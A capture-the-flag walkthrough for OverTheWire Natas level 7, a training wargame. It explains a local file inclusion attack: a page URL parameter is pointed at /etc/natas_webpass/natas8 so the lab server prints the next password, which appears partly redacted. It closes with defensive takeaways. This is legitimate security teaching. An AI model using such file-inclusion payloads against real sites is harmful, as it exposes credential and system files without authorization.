


# Natas Level 7 → Level 8

## Level Goal / Objective

Find the password for the next level.

🔗 https://overthewire.org/wargames/natas/natas7.html

## Tools You May Need

```text
Browser DevTools, URL manipulation
```

## Concept Focus

* Local file inclusion (LFI)
* URL parameter manipulation
* Sensitive file exposure

## Approach

### 1. Access the Level

Navigate to:

```text
http://natas7.natas.labs.overthewire.org
```

Authenticate using:

```text
Username: natas7
Password: <previous level password>
```

---

### 2. Initial Enumeration

Viewing the page source reveals a hint:

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

The page uses URL parameters such as:

```text
index.php?page=home
```

---

### 3. Investigate Further

Modify the `page` parameter in the URL to point to the hinted file:

```text
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

---

### 4. Extract the Password

The application includes the specified file and displays its contents, revealing the password for the next level.

---

## Walkthrough (Screenshots)





---

## Password for Level 8

```text
xcoXLmzMkoIP... (redacted)
```

---

## Key Takeaways

* Unsanitized input in URL parameters can lead to local file inclusion
* Sensitive system files should never be directly accessible
* Always test user-controlled input for file inclusion vulnerabilities
